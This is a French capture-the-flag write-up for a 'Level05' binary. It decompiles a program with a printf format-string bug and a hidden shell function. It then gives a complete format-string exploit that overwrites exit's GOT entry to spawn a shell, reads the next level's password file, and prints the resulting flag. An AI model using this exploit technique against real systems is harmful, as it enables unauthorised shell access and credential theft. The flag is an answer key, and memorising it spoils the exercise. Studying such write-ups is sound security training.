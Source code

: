 # Rapport CTF - [Level05]

### Observation :
En arrivant sur le level5 on trouve un exécutable nommé level5.\
Quand nous essayons de le lancer avec un argument le programme nous renvois juste notre propre chaîne de caractère puis se ferme, comme sur le level précédant. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (080484A4) --------------------------------------------------------
void __noreturn o()
{
  system("/bin/sh");
  _exit(1);
}
// 80484A4: using guessed type void __noreturn o();

//----- (080484C2) --------------------------------------------------------
void __noreturn n()
{
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  exit(1);
}

//----- (08048504) --------------------------------------------------------
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  n();
}
```
Nous pouvons voir une fonction non utiliser `o()` qui nous permet d'accéder a un shell. \
Probablement modifier la stack de printf pour changer son adresse de retour vu que nous n'avons pas d'instruction de retour dans les autres fonctions (ça va être fastidieux.). \
Appel à fonction `exit` et fonction `_exit`


### Solution :
Il nous faut modifier l'opération de saut de la fonction d'appel cour `exit` pour pointer vers la fonction `o()`. \
La première ligne de la fonction ressemble à ça : `(jmp *0x8049838)`. \
Je vais modifier l'adresse a laquelle l'opération jmp va dans la mémoire pour pointer vers l'adresse de la fonction `o()` = `080484A4` en inverser vu que nous sommes en small endian. \
Il nous faut donc écrire 164 octets pour le premier octet de notre return  `(A4 = 164)`, ensuite 0x84 étants plus petit que 0xA4 il nous faut écrire 4bits supplémentaire donc `(484 = 1156)`, puis `(804 = 2052)`.

On fait la commande suivante pour obtenir le flag :
```sh
(python -c "print('\x08\x04\x98\x38'[::-1] + 'A'*4 + '\x08\x04\x98\x39'[::-1] + 'A'*4 + '\x08\x04\x98\x3a'[::-1] + '%8.x'*3 + 'A'*120 + '%n' + '%992.x' + '%n' + '%896.x' + '%n')"; echo "cat /home/user/level6/.pass") | ./level5
```

### Resultat :
```sh
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
